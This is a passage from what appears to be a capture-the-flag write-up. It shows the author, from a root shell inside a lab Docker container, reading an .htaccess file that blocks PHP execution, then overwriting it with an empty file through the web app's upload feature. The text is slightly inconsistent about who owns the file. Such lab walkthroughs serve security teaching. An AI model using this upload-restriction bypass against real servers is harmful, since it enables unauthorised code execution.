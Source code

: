 #### Exploit by Stomping .htaccess

What’s likely blocking this file on an Apache webserver is an `.htaccess` file. This file defines custom rules for how files are handled in the current directory. With root, I can drop into the docker container and look at that file:

```

root@seventeen:~# docker exec -it manager6000 bash
root@8df6395c368f:/var/www/html# cat oldmanagement/files/31234/.htaccess 
php_flag engine off
Options -Indexes
ErrorDocument 403 "<h1>Forbidden</h1>"
RedirectMatch 403 ^/var/www/oldmanagement/files/31234/?$
RedirectMatch 403 ^.*\.php$

```

Anything ending in `.php` will get a 403 Forbidden HTTP response code. and `ErrorDocument`.

Unfortunately for the `.htaccess` file is writable by www-data:

```

root@8df6395c368f:/var/www/html/oldmanagement/files/31234# ls -la
total 688
drwxr-xr-x 3 www-data www-data   4096 Sep 22 19:30 .
drwxr-xr-x 3 www-data www-data   4096 Sep 22 19:30 ..
-rw-r--r-- 1 www-data root        161 May 29 15:48 .htaccess
-rw-r--r-- 1 www-data root     684399 May 10 05:05 Marksheet-finals.pdf
drwxr-xr-x 2 www-data www-data   4096 Sep 22 19:30 papers

```

Since the file is owned and writable by root, I can overwrite it by uploading a new one. I’ll create an empty file:

```

oxdf@hacky$ touch .htaccess

```

I can upload that just like any other file:

![image-20220922153752646](https://0xdfimages.gitlab.io/img/image-20220922153752646.png)

From my root shell, I can see it’s empty:

```

root@8df6395c368f:/var/www/html/oldmanagement/files/31234# cat .htaccess
root@8df6395c368f:/var/www/html/oldmanagement/files/31234# ls -la .htaccess 
-rw-r--r-- 1 www-data www-data 0 Sep 22 19:37 .htaccess

```
